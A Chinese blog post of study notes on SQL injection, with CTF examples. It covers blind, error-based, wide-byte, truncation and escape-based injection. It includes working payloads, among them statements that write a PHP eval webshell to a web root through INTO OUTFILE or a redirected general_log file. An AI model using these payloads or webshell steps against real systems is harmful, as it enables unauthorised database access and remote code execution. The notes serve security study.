




《白帽子讲web安全》SQL注入深度学习
前言
注入攻击是Web安全领域最为常见的攻击方式。在“跨站脚本攻击XSS的学习”一文中，提到XSS也是一种针对HTML的注入攻击，而sql注入，则是针对数据库的一种注入攻击
注入攻击两个条件：
- 用户能够控制数据的输入
- 原本要执行的代码，拼接了用户的输入
盲注
在MYSQL中有个函数，用来测试函数性能的，BENCHMARK（）函数，他有两个参数
1 | BENCHMARK(count,expr) |

可以看到上图将encode执行了100000000次，花了10秒
利用BENCHMARK函数可以进行盲注，配合if语句
读写文件注入（load_file）
load_file()函数
当想要注入一个shell的时候，用了这么个语句
1 | select '<?php eval($_POST[123]) ?>' into outfile 'D:/phpstudy_pro/WWW/123.php'; |
意思为，将马写入目标文件
但是，我遇到了一个问题

1 | ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement |
高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限secure_file_priv选项
查看secure_file_priv的命令
1 | show global variables like '%secure%'; |

secure_file_priv选项
1 | secure_file_priv |
我这里是NULL，所以是不允许导出
解决方法
要不然你能把配置改了
要知道路径
1
set global general_log=on;set global general_log_file='C:/phpStudy/WWW/123.php';select '<?php eval($_POST[123]) ?>';

1 | set global general_log = on; #开启general log模式 |
之后再写木马，就会默认到这里
宽字节注入
0x01 认识addslashes
在基于php对sql注入的防御里，总会提到这个函数。
1 | addslashes ( string $str ) : string |
在php官方文档中，对该函数的说明如下：
返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（’）、双引号（”）、反斜线（）与 NUL（NULL 字符）。
举例：
1 |
|
对于最简单的字符型数字型注入，经改函数转义的sql语句确实会“卡死“单引号。（构造攻击的sql语句不会执行）
但对于该函数的绕过，其实并不困难，无非两点：
1.在前面再加一个（或单数个），变成（ ‘）,可以导致被转义，从而让‘逃出限制。
2.把弄没。**
在下面的例子中你可以体会到，若是该数据库采用了宽字节的编码，这个函数就变成了纸老虎。
0x02 宽字节注入原理
宽字节注入利用了mysql一个特性，即当mysql在使用GBK编码的时候，会认为两个字符是一个汉字。（前一个ASCII码要大于128，才到汉字的范围）
先了解一下这些字符的url编码：
1 | 空格 %20 |
当输入单引号，经addslashes转义后，对应的url编码是：
‘ –> ' –> %5C%27
当在前面引入一个ASCII大于128的字符（比如%df），url编码变为：
%df –> %df \ ‘ –> （%df%5C）%27
若使用gbk编码的话，%df%5C会被当作一个汉字处理，从而使%27（单引号）逃出生天，成功绕过
SQL Column Truncation(长度绕过)
在MySQL配置文件中，有个sql_mode选项。当选项没有被开启，Mysql对于用户插入的超长的值只会提示warning，而不会error，这时候就有可能导致越权
比如已经有了 admin:admin passwd:password
如果我们开启了选项
那么我们用户输入
1 | admin: admin[][][][][][][][][][]1 |
那么就可以用新的密码来登录admin
CTF技巧
被过滤
注释符
1 |
|
information
information被过滤不要紧，还有
1 | sys.x$schema_table_statistics_with_buffer |
and or 空格 等连接词
连接符号除了and or 还有&& || ^,可以试试看有没有盲注什么的
1 | ||在mysql中是如果后面的是对的那就结果为1，如果后面的是错的那么就是前面的 |
更多的在本博客另一篇文章 《sql的各种绕过》中
无列表注入
利用（x,x）>(select * from 表)样式
假设 flag 为 flag {bbbbb}，对于 payload 这个两个 select 查询的比较，是按位比较的，即先比第一位，如果相等则比第二位，以此类推；在某一位上，如果前者的 ASCII 大，不管总长度如何，ASCII 大的则大，这个不难懂，和 c 语言的 strcmp() 函数原理一样，举几个例子：
- glag > flag{bbbbb}
- alag{zzzzzzzzzzz} < flag{bbbbb}
- a < flag{bbbbb}
- z > flag{bbbbb}
报错注入
floor()
1 | select count(*),(concat(floor(rand(0)*2),(select version())))x from user group by x |
updatexml()
1 | and updatexml(1,concat('~',(select database()),'~'),3);三个参数位 |
extractvalue()
1 | and extractvalue(null,concat(0x7e,(select datadir),0x7e))两个参数位 |
==updatexml和extractvalue函数的返回长度有限,均为32个字符长度==
转义注入
特点为有两个变量，比如有admin和passwd，这时可以在前一个变量最后加上\转义后面的单引号，导致后面变量的前一个单引号被闭合，再在第二个变量处进行注入，为转义注入
例子：
[BJDCTF 2nd]简单注入
因为是简单注入
我一开始就是 ‘ 加上去，被过滤了
所以我fuzz了一下，发现常用的基本都被过滤了，而且，最重要的是闭合的符号都被过滤了
百思不得其解
看了师傅的wp，才知道robots.txt里有提示有hint.txt

因为此题特点是闭合符号被过滤，所以只有一种方法可以绕过，就是在username的参数最后加上 ,作为转义符，把源代码中的 ‘ 转义，使得源代码变成
1 | select * from users where username=' \'and password='和恶意代码 |
用可以通过的关键字和符号，我们可以构建playload
1 | ^(ascii(substr(password,1,1))>1)# |
我们可以看到界面的反应，当我们 >1 时，肯定是正确的，界面返回BJD needs to be stronger
<1时，返回You konw ,P3rh4ps needs a girl friend
所以，我们可以列出脚本
1 | # post提交方式的bool盲注 |
最后，将得到的username和password写入就能得到flag
regexp正则注入
题目：[NCTF2019]SQLi
正常查看一下用户 select user()
匹配成功会返回1 select user() regexp ‘^r’;
匹配失败返回0 select user() regexp ‘^a’;
If you like this blog or find it useful for you, you are welcome to comment on it. You are also welcome to share this blog, so that more people can participate in it. If the images used in the blog infringe your copyright, please contact the author to delete them. Thank you !